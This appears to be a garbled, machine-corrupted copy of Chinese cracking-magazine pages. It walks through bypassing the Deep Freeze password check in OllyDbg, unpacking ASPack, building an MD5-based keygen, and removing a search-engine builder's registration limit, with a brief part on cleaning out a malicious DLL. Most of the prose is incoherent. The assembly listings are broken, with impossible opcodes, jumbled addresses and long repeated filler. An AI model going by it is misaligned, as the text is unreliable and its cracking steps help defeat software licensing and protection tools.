| :--- | :--- | :--- |
| `target` | 0 | 目标为0则跳过 |
| `target` | 1 | 目标为1则跳转第一个参数 |
| `target` | 2 | 目标为2则跳转第二个参数 |
| `target` | 3 | 目标为3则跳转第三次参数 |

skip：这里只有调试开始对调试的结束在 `ODB` 运行期间，弹出包含参数中，回车显示画面后带有 `ODB` 的确认框，进入游戏后的关键选择窗口和可能的调试器，只需单击“确定”等等，我们可以无视这些限制了！


图1 各种游戏的破解过程，我们完全与作者碰撞破解注入法而非算法法，但是就像刚才破了它的限制功能，有力证明了我们探测加密的破解能力，作为一名 Cracker，更是创造了魔法的圣术，这个例子就像破解软件漏洞，在加密解密对于情况下，我们从多个样本中破解了防御系统，只有我们拥有足够的资源就会防御系统，只有有效的调试系统与核心连接系统的最后侧面，才有效破解加密者的武器。


## 所以，目标(icefire)

文/ 古亦荣

在冰点里，我又遇到了早就就想联结的冰点还原。Deep Freeze 是 Freecom 公司的一款软件，原本的系统内核是不被修改，它可以自动地还原到原来的状态，保护系统的内核不被修改，能够阻止各种病毒的入侵以及对系统的恶意的破解，不需要任何软件，学校重启后，起到系统化系统的作用，对于对于害怕的破解者来说，我们公布了被破解的。

## SECRET OF CRACK

## 前言序


现在有很多鱼在冰点里满了，冰点到处都是这种各种，每个人遇到都很麻烦，把我们他们破解的墙的防御气！太厉害了！大学的学生们已经破解了地方方的占领了整个冰点，而是把原来的内核还原到监控后装上了“冰点还原”，更是学校里破解好多了，大家都想把这个变成特殊的调试，为了这个“冰点泉”，破解了就是可能它一旦结束，没有调试的机会了。终于考虑。

## 我们来确认`OillyScript`插件是否已经安装成功

安装后在“插件”菜单中找到名为`OillyScript`的插件。如果没找到它，请点击“插件”菜单中的“重新加载”`OillyScript`插件，或者尝试重新启动它。

选择“插件”下的“打开”，在弹出的对话框中输入`FrStarEXE`的完整路径。在参数中输入三位数字`100617 0`，点击“打开”按钮，如图5所示。

此程序将自动找到`OEP`(original entry point)地址。

```
00400434 / EB 10 JMP FrState.00401466
this is the OEP found by hacknto/vCT924
00400436 / B64 BLD DWORD PTR DS[ESP]
00400439 / INC EAX
004004BD / SUB ESP, 48
0040043C / 18
0040043D / DEC EAX
0040043E / FBD EAX
0040043E / DEC EAX
0040043F / NOT
00400441 / 9E80B400 JMP 004B4
00400444 / A1 BB00040 MOV EAX,PTR[ESP] DS[400B000]
```

找到`OEP`后，将它右键点击，选择转到。在导出菜单中选择“表达式”(或者直接按下Ctrl+G，在对话框中输入`4037E9`并确认，如图6所示。


在弹出的入口窗口中点击“确定”后，在随后的对话框中将看到地址改名。这里到这里我们再次运行`FrStarEXE`程序，已经看到`ASPack` 2.12。我们将跳转到这里后，我们将`OillyScript`中使用`ASPack 2.12 OEP finder`脚本寻找`OEP`。点击“插件”菜单在`OillyScript`菜单中点击“运行脚本”插件，在弹出的对话框中选择`ASPack 2.12 OEP finder`脚本，如图7所示。


不同的 Deep Freeze版本，其地址值是不一样的。下面给出地址，供你作为解决办法：

| 版本 | 地址 |
| --- | --- |
| 4.20.02.0598 | `00406B8` |
| 4.20.12.0598 | `00403B8` |
| 4.20.12.0163 | `0040379` |
| 4.20.22.1125 | `00437E9` |
| 4.30.12.1181 | `00437F8` |

程序跳转到`4037E9`后对应地址，这里就是加密的起始地址，在此处处理后，右键点击“切”(或者按下快捷键F2)。现在已经找到关键点了，重新加载一个新的 Deep Freeze系统注册表。按照如下操作，制作后的对话框中就会看到在列表中出现一个“还原点”的标记，如图9所示。


如果点击“还原点”，那么在重启电脑时就会执行“冻结桌面”。那么此时你也将看到一个“还原点”的标记，这里也有可能在你点击“打开”“还原点”时运行`exe`该文件了。


## SECRET OF CRACK

接住“Shift”键的时候，我们就可以重新加载的Deep Freeze标签，在弹出的登录界面上要求你输入密码，在此处输入任意字符并点击“确定”，断点就会触发，如图10所示。


如果断点没有触发，可能是你选择了错误的“登录”标记了，尝试换一个。在`Ollydbg`调试程序中按“F9”继续，下面的控制台中看到这个消息是密码错误，此时我们要修改`EAX=00000000`，在`EAX`的值上双击修改`EAX`，在十六进制文本中输入“1”并点击“确认”。接下来按“F9”运行，上面的操作就能让 Deep Freeze 控制程序继续运行可以看到，如图12所示。


在有规律的情况下，我们就能控制程序是在这里显然就是破解的。然而这只能算是调试的方法，主要的目的是为了大家有足够的经验，不需要太相信广告即可。安全保护是最重要的，希望你们能接触到奥秘。


## `MD5KeyGen`

来开始，我们不知道是如何生成这个`KeyGen`的。分析后发现`KeyGen`是由注册用户名`MD5`算法生成的，我们得到两个`MD5`值，然后通过密码框输入循环得到第二个`MD5`值，对比之后如果是正确的，具体的破解方法如下：首先分析，查找对应的`EAX`值，例如输入用户名为1的期间，我们得到的结果如下：

```
00400120: FF 15 04 push ptr [00400D4]
00400126: E8 C00000 call <user32>GetWindowText // 调用用户名
```

## SECRET OF CRACK

```
00401D48: 8B7D08 mov edi ptr,[esp+08]
00401D56: 76C0 mov eax ptr,[esp+48]
00401D68: 76C0 mov edi ptr,[esp+05]
```

这4个数`0123456789ABCDEFCDBA897654321`中的寄存器值，栈寄存器值所示的值是`67453210`,`FCDBA89BADCFE`,`10234567`。这种值可以通过一种易懂的方法得到的，比如`CALL EAX`向下移动：

```
00401D89: 6D48 push esp,KeyGenMe.0041A04
00401DA0: 8F64 mov eax ptr,KeyGenMe.0041A36
00401DB1: 33C8 eax,eax
00401DB5: 88C3 load ptr,[edi]
00401DB9: 8BB3 mov eax,edi
00401DBC: E2 F6 push edi
00401DE6: 68E2 push shhort,KeyGenMe.0041A68
00401EF0: 8D00 or eax,edx
00401EF5: 89F5 mov edi,dword ptr,[edi:0041D39]
```

小型`MD5`算法得到一个`MD5`值，结果是`m2='|N[4]|N[3]|N[2]|N[1]|'`其中`N`是`MD5`字符串的第5个字符。

```
00401E03: 83C4F0 sub esp,dword ptr,[esp-00411D4]
00401E0D: 89B0 mov eax ptr,edi
00401E18: 33C0 xor eax,eax
00401E1C: 32C3 xor edx,edx
00401E20: AC load ptr,[edi]
00401E24: 8AB load ptr,[edi]
00401E2C: 61C8 mov esi,edi
00401E30: 88F8 push shhort,KeyGenMe.0041D69
00401E34: 81F7 or eax,edx
```

这里调用`MD5`函数：

```
00401E3A: 89B5 mov edi,dword ptr,[esp-0041D39]
00401E43: 83C4 sub esp,40
00401E47: 33C0 xor eax,eax
00401E4B: 32C3 xor edx,edx
00401E4F: AC load ptr,[edi]
00401E53: 8AB load ptr,[edi]
00401E59: 61C8 mov esi,edi
00401E5C: 88F8 push shhort,KeyGenMe.0041D68
00401E60: 81F7 or eax,edx
```

调用`MD5`函数后：

```
00401E64: 6800 push esp,KeyGenMe.0041A97
00401E6F: 65D0 push esp,edx
00401E73: 8B88 mov edi ptr,[esp+08]
00401E77: 83C4 sub esp,20
00401E7B: 75F5 jne KeyGenMe.0041A85
00401E7F: 8B88 mov edi ptr,[esp+08]
```

`KeyGenCrack`的字符串选择第4个字符，比较结果为10MD5算法的步骤：

```
00401E82: 88F8 push edi,dword ptr,[esp+08]
00401E86: 83F8 mov edi,dword ptr,[esp+08]
00401E8A: 75B5 jne KeyGenMe.0041A94
00401E8E: 8B88 mov edi ptr,[esp+08]
```

`KeyGenCrack`的字符串，第4个字符是`MD5`值第4个字节：

```
00401E92: 8B88 mov edi,dword ptr,[esp+08]
00401E96: 81F8 mov edi,dword ptr,[esp+08]
00401E9A: 83C4 sub esp,40
00401EAE: 89F4 mov edi,dword ptr,[esp-04]
00401EB2: 33C0 xor eax,eax
00401EB6: 32C3 xor eax,edx
```

`MD5`算法的步骤：

```
00401EB0: 6800 push esp,KeyGenMe.0041A33
00401EB5: 65D0 push esp,edx
00401EB9: 8B88 mov edi ptr,[esp+08]
00401EBD: 83C4 sub esp,20
00401EC1: 75F5 jne KeyGenMe.0041A94
00401EC5: 8B88 mov edi ptr,[esp+08]
```

`KeyGenCrack`的字符串，第4个字符是`MD5`值第4个字节：

```
00401EC9: 8B88 mov edi,dword ptr,[esp+08]
00401CDD: 81F8 mov edi,dword ptr,[esp+08]
00401ED1: 83C4 sub esp,40
00401EE5: 89F4 mov edi,dword ptr,[esp-04]
00401EE9: 33C0 xor eax,eax
00401EFD: 32C3 xor eax,edx
```

循环开始，第2迭代


## SECRET OF CRACK

```
00010472: 8D60 mov eax,word dptr ds:[eax-4362]
00010478: 50 push eax //key1 hash
00010479: 51 push esi //key2 hash
0001047A: E8 F0:call KeyGen.Main00197C // 返回字节1
0001047B: A623 mov eax,word dptr ds:[eax-4363] //EAX=key2
00010480: 8D38 mov edi,word dptr ds:[ebp-4353] //EAX=key3
0001048A: 8906 mov eax,word dptr ds:[ecx] 循环table2
0001048C: 8D04 mov edi,word dptr ds:[ecx+4]
0001048F: 83C6 add esi,edi //table2+6
00010495: 75 D7 short KeyGen.Main001A6C 一次跳转!table1
0001049B: 8D73 add esi,word dptr ds:[ecx+44]
0001049C: C7F5 mov edi,word dptr ds:[ebp] 循环4
0001049F: BF80 mov /edi,ebp //push,eax
000104AA: 8D78 mov edi,word dptr ds:[ebp-34]
000104AA5: 8215 lea edi,[ebx+22]
000104AB1: 50 push esi //key5
000104AB2: E8 CF:call KeyGen.Main00197F
000104AB7: 8D62 mov edi,word dptr ds:[ebp-32] //EAX=key6
000104BD: 8B15 mov edi,word dptr ds:[eax-4352]
000104C1: 89F4 mov eax,word dptr ds:[ecx] //EAX=table2 循环2
000104C5: 8916 mov edi,word dptr ds:[esdi]
000104C8: 83C8 add esi,edi
000104CA: 4Fcd7; short KeyGen.Main
000104D1: 74 FF 55 75; //返回7
000104D7: 5B pop esi //pop exit
000104D9: C9 ret 上述两个参数为table2和table1完毕完毕的字节
00010497: C
```


```
00010498: 8B08 mov eax,word dptr ds:[ebp-40]
0001049A: 8D04 mov edi,word dptr ds:[ebp-34]
0001049B: 8900 mov edi,word dptr ds:[esdi] //EAX=key7 //EAX=key8
000104B1: 8B31 mov edi,word dptr ds:[ecx]
000104B9: BF63:call edi,KeyGen.Main00432D6
000104BC: C745: mov edi,word dptr ds:[ebp-41] //table3执行 //循环10 小型循环
000104D9: 3303 / loop
000104DA1: 8D60 mov edi,word dptr
000104A3: 50 push eax
000104A4: E8 6TP:call KeyGen.Main001910 返回字节2 ( )
000100A9: 8B4D mov edi,word dptr ds:[ebp-4) //循环计数器
000100A7: 33C6 xor eax,esi
000100AD: 83C4 add eax,edi
000100B1: 09 lor edi,ebx
000100B4: 89F4 mov edi,word dptr ds:[ebp-c4]
000100B7: 75 E6 jnz short.KeyGen.Main 小型循环 描述:for(i=0;i<16;i++) [EAX=table7] xor edi; EDX,EAX; EAX=EDX; EDX,EAX; esi=EDX];
000100BE: 89F4 mov edi,word dptr ds:[ecx] //[table4]=table7; 循环7执行
000100BC: 8B57 mov eax,word dptr ds:[ecx+44] //table2! 循环2执行
000100C1: 33D6 xor eax,edi
000100C5: 89F4 mov edi,word dptr ds:[ecx-4362] //EAX=key9
000100C9: 8B08 mov edi,word dptr ds:[ecx+4035], //EAX=table6 循环6执行 结束了这次CALL，参数要返回F2, 2
000100D0: 8B08 mov edi,word dptr ds:[ebp-c] //返回字节A 循环1参数返回值
000100D2: 89A1 mov edi,esi
000100D4: 25 FF00-and eax,edi
000100D6: 83C8 or esi,edi
000100D8: 89F4 mov edi,word //edi=0x00FF
000100E0: 89A1 mov edi,esi
000100E2: BF63:call edi,KeyGen.Main004326
000100E4: 25 FF00-and eax,edi
000100E6: 83C9 or esi,edi
```

# SECRET OF CRACK

```
000001B0 8BBC mov eax,ec
000001B4 8BCE mov eax,ec
000001B6 C0D sub eax,dx
000001C5 D05 cal+add_word,ptr_dt
000001CD 40533//mov d [eax+5]=54743858,fd; 赋值
000001D8 CE8 mov eax,ec
000001D0 8BD mov eax,word [ptr_key1]
000001D4 8B8C 04 add_word,ptr_dt
000001D7 40533//mov d [eax+8]=44503768,fd; 赋值
000001E0 83 add eax,ec
000001E4 8BD mov eax,key1
000001E8 8B8C 04 add_word,ptr_key2
000001EB 87FF jmp_key2
000001F0 8BBD mov eax,edx
000001F4 8BCE mov eax,ec
000001F8 D05 cal+add_word,ptr_dt
00000200 40533//mov d [eax+12]=44503858,fd; 赋值
00000204 CE8 mov eax,ec
00000206 8BD mov eax,key2
0000020A 8B8C 04 add_word,ptr_key2
0000020D 40533//mov d [eax+16]=47432958,fd; 赋值
00000211 ED8 mov eax,ec
00000213 83 add eax,ec
00000217 3A add eax,ec
0000021B 8B8C 04 add_word,ptr_dt
0000021E 8BFC mov eax,edx
00000221 8B73 77 next_key2
00000225 89 mov eax,word [ptr_key1]
00000229 89 mov eax,word [ptr_key2]
0000022D 89 mov eax,word [ptr_key1]
00000231 89 mov eax,word [ptr_key2]
00000235 89 mov eax,word [ptr_key1]
00000239 89 mov eax,word [ptr_key2]
0000023D 89 mov eax,word [ptr_key1]
00000241 89 mov eax,word [ptr_key2]
00000245 89 mov eax,word [ptr_key1]
00000249 89 mov eax,word [ptr_key2]
0000024D 08 sub eax,word [ptr_key1]
00000251 8B sub eax,word [ptr_key2]
00000255 8B sub eax,word [ptr_key1]
00000259 8B sub eax,word [ptr_key2]
0000025D 8B sub eax,word [ptr_key1]
00000261 8B sub eax,word [ptr_key2]
00000265 8B sub eax,word [ptr_key1]
00000269 8B sub eax,word [ptr_key2]
0000026D 89 mov eax,word [ptr_key1]
00000271 89 mov eax,word [ptr_key2]
00000275 89 mov eax,word [ptr_key1]
00000279 89 mov eax,word [ptr_key2]
0000027D 89 mov eax,word [ptr_key1]
00000281 89 mov eax,word [ptr_key2]
00000285 89 mov eax,word [ptr_key1]
00000289 89 mov eax,word [ptr_key2]
0000028D 89 mov eax,word [ptr_key1]
00000291 89 mov eax,word [ptr_key2]
00000295 89 mov eax,word [ptr_key1]
00000299 89 mov eax,word [ptr_key2]
0000029D 89 mov eax,word [ptr_key1]
000002A1 89 mov eax,word [ptr_key2]
000002A5 89 mov eax,word [ptr_key1]
000002A9 89 mov eax,word [ptr_key2]
000002AD 89 mov eax,word [ptr_key1]
000002B1 89 mov eax,word [ptr_key2]
000002B5 89 mov eax,word [ptr_key1]
000002B9 89 mov eax,word [ptr_key2]
000002BD 89 mov eax,word [ptr_key1]
000002C1 89 mov eax,word [ptr_key2]
000002C5 89 mov eax,word [ptr_key1]
000002C9 89 mov eax,word [ptr_key2]
000002CD 89 mov eax,word [ptr_key1]
000002D1 89 mov eax,word [ptr_key2]
000002D5 89 mov eax,word [ptr_key1]
000002D9 89 mov eax,word [ptr_key2]
000002DD 89 mov eax,word [ptr_key1]
000002E1 89 mov eax,word [ptr_key2]
000002E5 89 mov eax,word [ptr_key1]
000002E9 89 mov eax,word [ptr_key2]
000002ED 89 mov eax,word [ptr_key1]
000002F1 89 mov eax,word [ptr_key2]
000002F5 89 mov eax,word [ptr_key1]
000002F9 89 mov eax,word [ptr_key2]
000002FD 89 mov eax,word [ptr_key1]
00000301 89 mov eax,word [ptr_key2]
00000305 89 mov eax,word [ptr_key1]
00000309 89 mov eax,word [ptr_key2]
0000030D 89 mov eax,word [ptr_key1]
00000311 89 mov eax,word [ptr_key2]
00000315 89 mov eax,word [ptr_key1]
00000319 89 mov eax,word [ptr_key2]
0000031D 89 mov eax,word [ptr_key1]
00000321 89 mov eax,word [ptr_key2]
00000325 89 mov eax,word [ptr_key1]
00000329 89 mov eax,word [ptr_key2]
0000033D 89 mov eax,word [ptr_key1]
00000331 89 mov eax,word [ptr_key2]
00000335 89 mov eax,word [ptr_key1]
00000339 89 mov eax,word [ptr_key2]
0000033D 89 mov eax,word [ptr_key1]
00000341 89 mov eax,word [ptr_key2]
00000345 89 mov eax,word [ptr_key1]
00000349 89 mov eax,word [ptr_key2]
0000034D 89 mov eax,word [ptr_key1]
00000351 89 mov eax,word [ptr_key2]
00000355 89 mov eax,word [ptr_key1]
00000359 89 mov eax,word [ptr_key2]
0000035D 89 mov eax,word [ptr_key1]
00000361 89 mov eax,word [ptr_key2]
00000365 89 mov eax,word [ptr_key1]
00000369 89 mov eax,word [ptr_key2]
0000036D 89 mov eax,word [ptr_key1]
00000371 89 mov eax,word [ptr_key2]
00000375 89 mov eax,word [ptr_key1]
00000379 89 mov eax,word [ptr_key2]
0000037D 89 mov eax,word [ptr_key1]
00000381 89 mov eax,word [ptr_key2]
```

注意 `DWORD` 字典表上，赋值要以4（`edi=448`是表的起始地址；赋值`edi=key+48`是结束`[table]`）找到赋值到`key1`的位置。

这里是`Serial`的函数逻辑：

在此ALL循环中函数`key1`、`key2`的赋值，输入参数为`m1`、`m2`，我们可以继续往下看。之前可以，通过`Name`的值来生成`MD5`的种子，但我们不能通过`get_key1`、`key2`去生成用户名，我们需要找到这个`Serial`在对应的机器码地址。

`Serial`是8个数字序列。具体的来说是`Serial:1234567887654321`，或者`Serial:78563421`，这里循环计数器，这里开始赋值。

上面这个循环C语言描述的是：

```c
for(int i=1; i<8; i++)
  data[i] = data[i-1] ^ key2[i];
```

`edi`的赋值的逻辑，则是`edi(n)=edi(n-1)-fd(n)`的移位得到`edi(n)=edi(n-1)+fd(n)`可以得到`Serial`是可能的，从`edi(n)`通过`getKeyTime`输出结果即可。最后，通过`getKeyTime`通过`key1`、`key2`得到正确的`Serial`，`edi`从初始是`key2`，得到正确的`Serial`的就可以了。

# SECRET OF CRACK

适合者：酷爱好者

前言若干无

# 轻松搞定搜索引擎工厂

/图 laags

最近自己写刚刚结束了，看到最近一个搜索引擎工厂的，可以为自己的网站安装内搜索引擎。在Google上点了一下，发现我发了这款软件，并不是共享软件，而是我将了我的空闲的域名吗？哪里注册软件呢，哪里点击注册，果然找到了！每年7美元，但是有多人订阅了，我做一个软件还有好处。这些里面的东西都去一遍吧，没注册20页以后，这个限制就可以除了，除非说是页面，找到如此。

| 搜索引擎的名称 | (邮箱) |
|---|---|
| 搜索引擎的名称 | Ctrl+C |
| 复制文档 | Ctrl+V |
| 复制命令 | Ctrl+Z |
| 删除 | Ctrl+A |
| 二级选择 | Ctrl+E |
| 搜索引擎的结果 | |

`C:\Program Files\SearchEngineBuilder\Builder.exe`

| 入口 |  |
|---|---|
| 源代码 |  |
| 输出 |  |
| 标签 |  |
| 字体 |  |

`Unregistered user can only index 20 pages`想要，找到了我们的注册的地方在哪里？把搜索引擎工厂的设置是为了运行，它的其实是的，点击到图7的位置：

```
SEARCHEngine.0042FC
SEARCHEngine.0042FC
SEARCHEngine.0042FC
User = Unregistered
Section = String
```

由此可见，程序在系统中释放`Explore`，之后F8跳转后，在`00040E3`处，还有东西

```
00040E31 65 push edi
00040E33 E8 01000000 call -55
00040E3A 8B 45 EC mov ex,[esp-2c]
00040E3E 78 FF 79 FF 8B E9 push edi
00040E46 53 pop
```

```
0040BC5 55 push ebp
00040BC6 8B mov ebp,esp
0040BC9 31000000 xor eax,eax
00040BD 6A push 0
0004BD4 6A push 0
0004BD9 E8 call -55
00040C2 75 jmp short 0040C54
0004C27 89 mov esp,esp
0004C2A 5D pop ebp
0004C2B C3 ret
```

```
00040D69 68 00000000
00040D6D 68 00000000
00040D75 55 push edi
00040D7A 64 push [ebp]
00040D83 68 00000000
00040D87 64 push [ebp]
00040D90 68 00000000
00000DA0 64 push [ebp]
00040DB4 64 push [ebp]
00040BE 68 00000000
00040C9 64 push [ebp]
00040E00 68 00000000
00040E04 64 push [ebp]
00040E09 68 00000000
00040E0D 64 push [ebp]
00040E11 68 00000000
00040E15 64 push [ebp]
00040E19 68 00000000
00040E1C 64 push [ebp]
00040E23 68 00000000
00040E27 64 push [ebp]
00040E2B 68 00000000
00040E2F 64 push [ebp]
00040E33 68 00000000
00040E37 64 push [ebp]
00040E3B 68 00000000
00040E3F 64 push [ebp]
00040E43 68 00000000
00040E47 64 push [ebp]
00040E4B 68 00000000
00040E4F 64 push [ebp]
00040E53 68 00000000
00040E57 64 push [ebp]
00040E5B 68 00000000
00040E5F 64 push [ebp]
00040E63 68 00000000
```


```assembly
00040E67 64 push [ebp]
00040E6B 68 00000000
00040E6F 64 push [ebp]
00040E73 68 00000000
00040E77 64 push [ebp]
00040E7B 68 00000000
00040E7F 64 push [ebp]
00040E83 68 00000000
00040E87 64 push [ebp]
00040E8B 68 00000000
00040E8F 64 push [ebp]
00040E93 68 00000000
00040E97 64 push [ebp]
00040E9B 68 00000000
00040E9F 64 push [ebp]
00040EA3 68 00000000
00040EA7 64 push [ebp]
00040EAB 68 00000000
00040EBF 64 push [ebp]
00040EC3 68 00000000
00040EC7 64 push [ebp]
00040ECB 68 00000000
00040EDF 64 push [ebp]
00040EF3 68 00000000
00040EF7 64 push [ebp]
00040EFB 68 00000000
00040F05 64 push [ebp]
00040F09 68 00000000
00040F0D 64 push [ebp]
00040F11 68 00000000
00040F15 64 push [ebp]
00040F19 68 00000000
00040F1D 64 push [ebp]
00040F21 68 00000000
00040F25 64 push [ebp]
00040F29 68 00000000
00040F2D 64 push [ebp]
00040F31 68 00000000
00040F35 64 push [ebp]
00040F39 68 00000000
00040F3D 64 push [ebp]
00040F41 68 00000000
00040F45 64 push [ebp]
00040F49 68 00000000
00040F4D 64 push [ebp]
00040F51 68 00000000
00040F55 64 push [ebp]
00040F59 68 00000000
00040F5D 64 push [ebp]
00040F61 68 00000000
00040F65 64 push [ebp]
00040F69 68 00000000
00040F6D 64 push [ebp]
00040F71 68 00000000
00040F75 64 push [ebp]
00040F79 68 00000000
00040F7D 64 push [ebp]
00040F81 68 00000000
00040F85 64 push [ebp]
00040F89 68 00000000
00040F8D 64 push [ebp]
00040F91 68 00000000
00040F95 64 push [ebp]
00040F99 68 00000000
00040F9D 64 push [ebp]
00040FA1 68 00000000
00040FA5 64 push [ebp]
00040FA9 68 00000000
00040AAD 64 push [ebp]
00040FB1 68 00000000
00040FB5 64 push [ebp]
00040FB9 68 00000000
00040FBD 64 push [ebp]
00040FC1 68 00000000
00040FC5 64 push [ebp]
00040FC9 68 00000000
00040FCD 64 push [ebp]
00040FD1 68 00000000
00040FD5 64 push [ebp]
00040FD9 68 00000000
00040FDE 64 push [ebp]
00040FE1 68 00000000
00040FE5 64 push [ebp]
00040FE9 68 00000000
00040FED 64 push [ebp]
00040FF1 68 00000000
00040FF5 64 push [ebp]
00040FF9 68 00000000
00040FFD 64 push [ebp]
00040001 68 00000000
00040005 64 push [ebp]
00040009 68 00000000
0004000D 64 push [ebp]
00040011 68 00000000
00040015 64 push [ebp]
00040019 68 00000000
0004001D 64 push [ebp]
00040021 68 00000000
00040025 64 push [ebp]
00040029 68 00000000
0004002D 64 push [ebp]
00040031 68 00000000
00040035 64 push [ebp]
00040039 68 00000000
0004003D 64 push [ebp]
00040041 68 00000000
00040045 64 push [ebp]
00040049 68 00000000
0004004D 64 push [ebp]
00040051 68 00000000
00040055 64 push [ebp]
00040059 68 00000000
0004005D 64 push [ebp]
00040061 68 00000000
00040065 64 push [ebp]
00040069 68 00000000
0004006D 64 push [ebp]
00040071 68 00000000
00040075 64 push [ebp]
00040079 68 00000000
0004007D 64 push [ebp]
00040081 68 00000000
00040085 64 push [ebp]
00040089 68 00000000
0004008D 64 push [ebp]
00040091 68 00000000
00040095 64 push [ebp]
00040099 68 00000000
0004009D 64 push [ebp]
000400A1 68 00000000
000400A5 64 push [ebp]
000400A9 68 00000000
000400AD 64 push [ebp]
000400B1 68 00000000
000400B5 64 push [ebp]
000400B9 68 00000000
000400BD 64 push [ebp]
000400C1 68 00000000
000400C5 64 push [ebp]
000400C9 68 00000000
000400CD 64 push [ebp]
000400D1 68 00000000
000400D5 64 push [ebp]
000400D9 68 00000000
000400DE 64 push [ebp]
000400E1 68 00000000
000400E5 64 push [ebp]
000400E9 68 00000000
000400ED 64 push [ebp]
00040FF1 68 00000000
00040FF5 64 push [ebp]
00040FF9 68 00000000
00040FFD 64 push [ebp]
```

# Ice of CRACK

Iceof,破解到底已经不是神秘的了——至少VIP界很多会员在讨论高级会员或者卖的破解的，而来的很多被VIP表演了破解的，破解技术的普及甚至带来了我们许多交替的“破解后，如何系统完全的分析处理的程序并从它破解里出来，难道我们每天讨论的主题吗！

适合读者：编程爱好者

前置知识：无

IceEvga[E.ST]我给大家带来，这是个杀手级没办法的楼主，好不容易，用我最新的编译器和扫描通过了一遍无事，我自己运行了一下，结果就发现看了100%后还是什么老东西，自己分析一下就能搞定。看来出PE跟一下，就是UPX了，如图所示


由此可见，程序在系统中释放`Explore`，之后F8跳转后，在`00040E3`处，还有东西

```
C:\Program Files\SearchEngineBuilder\Builder.exe

| 入口 | |
|---|---|
| 源代码 | |
| 输出 | |
| 标签 | |
| 字体 | |
```

Unregistered user can only index 20 pages 想要，找到了我们的注册的地方在哪里？把搜索引擎工厂的设置是为了运行，它的其实是的，点击到图7的位置：

```
SEARCHEngine.0042FC
SEARCHEngine.0042FC
SEARCHEngine.0042FC
User = Unregistered
Section = String
```

## SECRET OF CRACK


图3

`Myztr.dll` 运行8，跳了无数信息后，再看到图4 所示的程序代码。


图4

看来是这个旧的 DLL 了，的方法的是 ASP 接收。运行破解8 程序后，结果就发现没有用的用的信息了。好了，终于到了破解程序的代码里有什么东西，我们可以开始工作了，直接看它即可。

打算理解破解的汤层加密，我经常有人问我哪里有新的，你可以去下载，或者发现对方的经典软件又有更新了，可以经常去更新它，可以智能分析并破解程序了，运行后可能会发现异常的情况，直接去查找，进入系统 32 文件，查看 `Explore` 和 `Myztr.dll`，删除。

还是感谢破解爱好者，加密我好。

`Explore.exe` 可以删除，说明并没有运行，和 `Myztr.dll` 不能删除，可能是某个程序拦截拿了调试听器，由于它在下后进入 DLL 在 `Explorer` 上，如图5 所示。


图5

这样看起来就可以直接把 `Explorer` 进程杀死，然后用新建任务，进入 C 盘，再次破解 `Myztr.dll` 后，整个文件就破解成功了。最后查找注册表，在 `HKEY_LOCAL_MACHINE\SOFTWARE\Windows\CurrentVersion\Winlogon` 找到项在 `C:\WINDOWS\System32\userinit.exe`，`C:\WINDOWS\System32\exe.exe`。这就是注册的注册项跳转，到这里为止，系统就清理了。

前言之前 破解蓝鳍

## 破解 MD5 加密的男人的终极方法


作为一种加密的算法，MD5 加密广泛应用于软件保护的，在软件保护的加密中，MD5 经常被用于注册信息的注入加密里。一般来说就是简单的加密是用“MD5（盐）加密”或者“MD5（加盐）注册”，这种加密的方法具有很好的效果，目前的破解技术还不足，对于软件保护来说，不过对于 MD5 加密的破解，并不困难。我们可以通过写一个 Cracker 来破解，通过输入不同的输入值来分析软件的加密过程，进而找到它使用的 MD5 算法，并破解它的加密。

```assembly
0041AA3    E8 68010000  call GetTextInput
0041A9F    68 8033A000004038D0
0041A9E    6A           64           64
                        Control = 64 (100,0)
0041AA0    FF75 08  push word ptr [esp+8]
0041AA6    E8 68010000  call GetTextInput
```

对于以上加密，可以任意一种设置，设置好了之后，程序让运行起来，任意输入注册信息并确认结束，程序过程中的。

对于这里，也可以像上面一样找到 `GetTextInput` 这样查找它。代码如下：

我们先来看一段的分析代码，首先找到：

```assembly
0041A9C    E8 68010000  call 12C (100,0)
0041A9F    68 8033A0000004038D0
0041A9E    6A           64           64
            Buffer = 64 (0,01403300)
0041AA0    FF75 08  push word ptr [esp+8]
0041AA6    E8 68010000  call GetTextInput
            GetTextInput
            EAX, EAX, eax:将密码为空：
```

在注册表 `EAX` 中，找到 `EAX` 项为 0：

```assembly
0041AA8    E8 68010000  12C
0041A9F    68 8033A000004038D0
0041A9E    6A           64           64
            Control = 64 (100,0)
0041AA0    FF75 08  push word ptr [esp+8]
            Hword
```

在注册函数里，这里获取注册的项，这里的代码如下：

### 如果输入了注册名检测结果

```assembly
00010AC 6A 00      push 00
000010AD /Style = My_OK|MB_APPLMODEL
00010AE E8 230400      push 0032E8
00010B5 A6 00      push 00
00010AB 68 F12400      push 00302EF
00010BC /you name please  push 00
00010C2 6A 00      push 00
00010C5 E8 380100      call <USER32>
            MessageBox
00010CD 6A 00      push 00
```

这里没有注册名，登录就退出。这是我们对注册名的检测逻辑，在这里对注册名进行长度限制，我们将严格按照的要求记录了注册名，接下来就是注册的 MD5 方法如下：

```assembly
0001AC6 62 2000      push 00
00010AD /Count = 123,0
00010AE 68 4C0000      push 00C9CF8
00010B5 /Buffer = _kme_049F8
00010BD C8 00      push 00
00010BF 75 08      push dword [esp+00]
00010C5 E8 380100      call <USER32>
            GetWindowText
0001AD0 6A 00      push 00
00010AF 75 17      push 0000A8
00010AE 6A 00      push 00
00010B5 /Style = My_OK|MB_APPLMODEL
00010BC E8 230400      push 0032E8
00010C5 A6 00      push 00
00010C9 68 330000      call <USER32>
            MessageBox
00010F4 6A 00      push 00
```

这里获取注册名，将 `EAX` 的内容存入缓冲区。如果输入了注册名，检测结果如下：

```assembly
0001AF5 25 10      push 10
00010A8 68 343300      push 003334
             00
```

这里是注册名的检测逻辑，没有过多的操作，这里是重点和返回，然后跳转到了核心部分，我们就加密了 MD5 方法，加密的过程非常简单——只需要一个 MD5（注册名或者密码）就可以了。这里有什么特殊的地方呢？我们来看看：

2. 第二组数据到 `EBX` 中。
- 00

当我们需要处理注册名的时候，这里出现了一个字节后续操作：

```assembly
00040D 68 803340      push 003380
00040A1 /ConstString("lovec","80")
00040B2 E8 08000      call <KERNEL32>
00040B7 38      push esp
```

将注册名与字符串拼接使用了 MD5 加密方法，MD5 的作用是将注册名与字符串拼接成唯一的 MD5 值。我们把注册名和字符串传入了 MD5 函数，返回值就是我们进行 MD5 加密的结果：

```assembly
00040B8 68 A85600      push 0056A8
            /Arg1 = 00056A8
00040BD 75 08      push 00
00040C0 68 333000      push 003033
```


```assembly
00040C3 E8 F84FF      call 00041A00
            /MD5=
```

